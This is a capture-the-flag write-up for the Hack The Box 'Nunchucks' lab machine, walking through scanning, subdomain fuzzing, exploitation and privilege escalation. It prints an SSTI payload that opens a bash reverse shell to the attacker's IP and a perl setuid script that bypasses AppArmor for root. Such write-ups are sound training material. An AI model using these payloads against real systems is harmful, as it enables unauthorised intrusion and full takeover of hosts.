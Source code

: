 # Hack The Box Nunchucks
## Difficulty : Easy
## OS : Linux

## Enumeration 

I'll start with a simple port scan.

```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.95.252
```

![pScan](img1.png)

After adding the domain name to our "/etc/hosts" file we can see the webpage.

![page1](img2.png)

Using dirsearch we find more pages.

```bash
dirsearch -u https://nunchucks.htb 
```

![dirs](img3.png)

Using ffuf we find a new subdomain.

```bash
sudo ffuf -u https://10.129.95.252 -H 'HOST: FUZZ.nunchucks.htb' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fs 30589
```

![ffuf](img4.png)

We find a SSTI vulnerability.

![SSTI](img5.png)

Using the following payload I managed to get a reverse shell on the target.

```bash
{
    "email":"{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('bash -c \\\"bash -i >& /dev/tcp/10.10.14.54/6666 0>&1\\\"')\")()}}"
}
```

![RevS](img6.png)

I'll get the user flag.

```bash
cd ~
ls
cat user.txt
```

## We got the user flag!

## Privilege Escalation

Using linpeas we find that "/usr/bin/perl" has SUID Capabilities.

![lin](img7.png)

I fond an apparmor profile for perl in "etc/apparmor.d/".

```bash
cd etc/apparmor.d/
ls
cat usr.bin.perl
```

![up](img8.png)

Making a script that uses perl allows us to bypass apparmor.

Script:
```perl
#!/usr/bin/perl

use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";
```

I'll run the script and get the root flag.

```bash
chmod +x script
./script
cat /root/root.txt
```

![fl](img9.png)

## We got the root flag!